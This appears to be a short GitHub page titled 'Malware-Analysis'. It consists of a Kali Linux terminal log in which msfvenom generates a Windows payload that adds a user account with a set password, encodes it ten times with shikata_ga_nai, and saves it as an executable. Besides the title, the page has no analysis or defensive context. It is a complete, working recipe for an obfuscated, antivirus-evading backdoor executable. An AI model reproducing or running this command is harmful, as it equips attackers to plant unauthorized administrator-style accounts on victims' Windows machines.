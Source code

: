 # Malware-Analysis

root@kali64:~# msfvenom -p windows/adduser user=testuser1 pass=Test@321 -e x86/shikata_ga_nai -i 10 -f exe -o ~/testadd10.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 303 (iteration=0)
x86/shikata_ga_nai succeeded with size 330 (iteration=1)
x86/shikata_ga_nai succeeded with size 357 (iteration=2)
x86/shikata_ga_nai succeeded with size 384 (iteration=3)
x86/shikata_ga_nai succeeded with size 411 (iteration=4)
x86/shikata_ga_nai succeeded with size 438 (iteration=5)
x86/shikata_ga_nai succeeded with size 465 (iteration=6)
x86/shikata_ga_nai succeeded with size 492 (iteration=7)
x86/shikata_ga_nai succeeded with size 519 (iteration=8)
x86/shikata_ga_nai succeeded with size 546 (iteration=9)
x86/shikata_ga_nai chosen with final size 546
Payload size: 546 bytes
Final size of exe file: 73802 bytes
Saved as: /root/testadd10.exe
root@kali64:~# 
